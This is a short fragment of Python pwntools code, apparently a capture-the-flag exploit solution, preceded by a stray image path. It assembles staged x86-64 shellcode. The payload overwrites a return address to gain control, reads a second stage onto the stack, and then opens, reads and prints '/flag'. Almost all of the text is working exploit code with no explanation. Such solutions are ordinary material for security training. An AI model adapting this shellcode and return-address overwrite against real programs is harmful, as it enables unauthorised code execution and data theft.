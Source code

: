 ```python

jmp_inst = asm(shellcode_1)[0x28:]

shellcode_2 = '\
	mov rsi, rsp;\
	sub rsi, 0x10;\
	xor rax, rax;\
	xor rdi, rdi;\
	mov rdx, 0x100;\
	syscall;\
'

sc1 = asm(shellcode_2).ljust(0x18, b'\x90')

payload = sc1 + p64(0)
payload += jmp_inst.ljust(8, b'\x90')	# change rbp
payload += p64(0x4009EE)

io.sendafter(b'Easy shellcode, have fun!\n', payload.ljust(0x38, b'\x00'))

data_seg = 0x601058

shellcode3 = '\
	xor rax, rax;\
	xor rdi, rdi;\
	mov rsi, 0x601058;\
	mov rdx, 6;\
	syscall;\
	mov rax, 2;\
	mov rdi, 0x601058;\
	xor rsi, rsi;\
	xor rdx, rdx;\
	syscall;\
	mov rdi, rax;\
	xor rax, rax;\
	mov rsi, rsp;\
	sub rsi, 0x40;\
	mov rdx, 0x30;\
	syscall;\
	mov rax, 1;\
	mov rdi, rax;\
	mov rsi, rsp;\
	sub rsi, 0x40;\
	mov rdx, 0x30;\
	syscall;\
'

io.send(asm(shellcode3).ljust(0x100, b'\x00'))
io.send(b'/flag\x00')


io.interactive()
```